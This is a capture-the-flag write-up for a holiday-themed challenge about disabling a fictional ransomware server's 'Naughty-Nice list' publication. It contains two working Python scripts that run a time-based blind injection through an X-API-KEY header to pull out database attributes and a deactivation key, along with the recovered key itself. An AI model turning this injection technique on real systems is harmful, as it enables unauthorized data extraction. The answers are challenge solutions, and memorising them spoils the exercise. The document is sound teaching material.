

# Deactivate Frostbit Naughty-Nice List Publication 

## Challenge Information
- **Difficulty**: 5 / 5
- **Description**: Wombley's ransomware server is threatening to publish the Naughty-Nice list. Find a way to deactivate the publication of the Naughty-Nice list by the ransomware server.

## Table of Contents
0. [Challenge Information](#challenge-information)
1. [Dialog](#dialog)
2. [Solution](#solution)

## Dialog
Tangle Coalbox:
```
> Well, I’ll be a reindeer’s uncle! You've done it, Gumshoe! You cracked that frosty code and saved the Naughty-Nice List just in the nick of time. The elves’ll be singin’ your praises from here to the South Pole!
> I knew you had it in ya. Now, let’s get these toys delivered and make this a holiday to remember. You're a true North Pole hero!
```

## Solution

Building upon the decryption of the naughty/nice list, I turned my attention to another clue provided in the SantaVision challenge. One of the MQTT messages from the frostbitfeed hinted at the syntax required to deactivate the ransomware. The message included the following URI:

`/api/v1/frostbitadmin/bot/<botUUID>/deactivate`

The message also specified that an authentication header, `X-API-KEY`, must be provided when accessing this endpoint.

Using the botUUID we identified earlier (`24157fd8-2bc9-4efc-ba3b-720fb47bbb00`), I attempted to access the endpoint:

`https://api.frostbit.app/api/v1/frostbitadmin/bot/24157fd8-2bc9-4efc-ba3b-720fb47bbb00/deactivate`

Response:
```json
{
    "error": "Invalid Request"
}
```

The `Invalid Request` response suggests that additional information or proper authentication (likely the `X-API-KEY`) is required to proceed.

After receiving the `Invalid Request` error while trying to access the `/deactivate` endpoint, I began experimenting with the `X-API-KEY` header to determine its correct value.

I guessed that the `nonce` might serve as the API key and added it to the `X-API-KEY` header. However, the response remained the same.

After that, I tried with debug mode enabled, the response changed slightly, providing additional information:

```json
{
    "debug": true,
    "error": "Invalid Key"
}
```

With debug enabled, I tested whether the system might be vulnerable to SQL injection, I supplied a single quote `'` as the X-API-KEY. To my surprise, this produced a detailed error message, indicating the query being executed:

```json
{
    "debug": true,
    "error": "Timeout or error in query:\nFOR doc IN config\n    FILTER doc.<key_name_omitted> == '{user_supplied_x_api_key}'\n    <other_query_lines_omitted>\n    RETURN doc"
}
```

The error message exposed the internal query logic, hinting that the server is querying a `config` document to validate the provided `X-API-KEY`.
The placeholder `{user_supplied_x_api_key}` confirmed that the input was directly being injected into the query.

After identifying that the backend likely used `ArangoDB` from the error message syntax, I investigated further. The error revealed that the server was filtering documents in the `config` collection based on the provided `X-API-KEY` header. However, the specific column being filtered and the actual key were unknown.

I suspected that the `X-API-KEY` was the `deactivation key` required to disable the ransomware. Initially, I attempted common SQL injection payloads, but they failed to produce meaningful results. After further research and reviewing the documentation, I decided to explore [blind injection techniques](https://owasp.org/www-community/attacks/Blind_SQL_Injection).

Blind injection leverages indirect responses, such as timing differences or specific error messages, to infer database behavior. Given the server's use of ArangoDB, I hypothesized that time-based injection might work.
Developing a Blind Injection Exploit

Using the information from the error message, I crafted a Python script to extract the deactivation key character by character. The script exploits a potential vulnerability in the query by introducing a conditional that causes a delay when true. This delay allows us to infer whether a guessed character is correct.

```Python
import requests
from string import ascii_letters, digits
from time import time, sleep
from urllib3 import disable_warnings
from urllib3.exceptions import InsecureRequestWarning

disable_warnings(InsecureRequestWarning)

target_url : str = "https://api.frostbit.app/api/v1/frostbitadmin/bot/24157fd8-2bc9-4efc-ba3b-720fb47bbb00/deactivate"

# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_
payload_chars : list[str] = list(ascii_letters + digits + "_-")

payload_template: str = "' OR SUBSTRING(ATTRIBUTES(doc)[{index}], {position}, 1) == '{char}' AND sleep(3) AND '1'=='1"


results : list[str] = []

index : int = 0
while True:
    result : str = ""
    position : int = 0
    found : bool = False
    while True:
        position_found : bool = False
        for payload_char in payload_chars:
            payload : str = payload_template.format(
                index = index,
                position = position,
                char = payload_char
            )
            
            headers : dict[str, str] = {
                "X-API-KEY": payload
            }
            
            print(f"[*] Testing index {index}, position {position}, character {payload_char}", end="\r")
            start_time = time()
            response = requests.get(target_url, headers=headers, verify=False)
            
            elapsed_time = time() - start_time
            if elapsed_time >= 2:
                position_found = True
                result += payload_char
                print(f"[+] Character found for index {index}, position {position}, current result: {result}")
                break
            sleep(1)

        if not position_found:
            if result:
                found = True
                results.append(result)
                print(f"[+] Result found for index {index}: {result}")
            else:
                found = False
                print(f"[!] No result found for index {index}")
            break

        position += 1

    if not found:
        print(f"[+] All results found: {results}")
        break

    index += 1
```

After running my initial Python script to perform a blind injection attack, I successfully enumerated four attributes in the config collection: `deactivate_api_key`, `_rev`, `_key`, `_id`.

I hypothesized that the `deactivate_api_key` attribute contained the deactivation key required to disable the ransomware. Building on the logic and approach from the previous script, I created a new Python script specifically designed to extract the value of the `deactivate_api_key` attribute.

```python
import requests
from string import ascii_letters, digits
from time import time, sleep
from urllib3 import disable_warnings
from urllib3.exceptions import InsecureRequestWarning

disable_warnings(InsecureRequestWarning)

target_url : str = "https://api.frostbit.app/api/v1/frostbitadmin/bot/24157fd8-2bc9-4efc-ba3b-720fb47bbb00/deactivate"

# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-
payload_chars : list[str] = list(ascii_letters + digits + "_-")

payload_template: str = "' OR SUBSTRING(doc.deactivate_api_key, {position}, 1) == '{char}' AND sleep(2) AND '1'=='1"


result : str = ""
position : int = 0
found : bool = False
while True:
    position_found : bool = False
    for payload_char in payload_chars:
        payload : str = payload_template.format(
            position = position,
            char = payload_char
        )
        
        headers : dict[str, str] = {
            "X-API-KEY": payload
        }
        
        print(f"[*] Testing position {position}, character {payload_char}", end="\r")
        start_time = time()
        response = requests.get(target_url, headers=headers, verify=False)
        
        elapsed_time = time() - start_time
        if elapsed_time >= 2:
            position_found = True
            result += payload_char
            print(f"[+] Character found for position {position}, current result: {result}")
            break
        sleep(1)

    if not position_found:
        if result:
            print(f"[+] Result found: {result}")
        else:
            print(f"[!] No result found")
        break
    position += 1
```

This script took way to long to run. 

Eventually it returned `abe7a6ad-715e-4e6a-901b-c9279a964f91`, which I suspected to be the deactivation key. Armed with this key, I proceeded to test it by sending it as the `X-API-KEY` in the request header to the ransomware deactivation endpoint.

I received the following JSON response:
```json
{
    "message": "Response status code: 200, Response body: {\"result\":\"success\",\"rid\":\"24157fd8-2bc9-4efc-ba3b-720fb47bbb00\",\"hash\":\"7d546563785365c17231fd3f94db2783a87625287f43f63ceb25060e56e93fbf\",\"uid\":\"93157\"}\nPOSTED WIN RESULTS FOR RID 24157fd8-2bc9-4efc-ba3b-720fb47bbb00",
    "status": "Deactivated"
}
```
Hurray! The ransomware has been deactivated!

Upon revisiting the ransomware note page, I was greeted with a message confirming that the ransomware had been successfully deactivated.



The solution was automatically registered, marking the challenge as complete.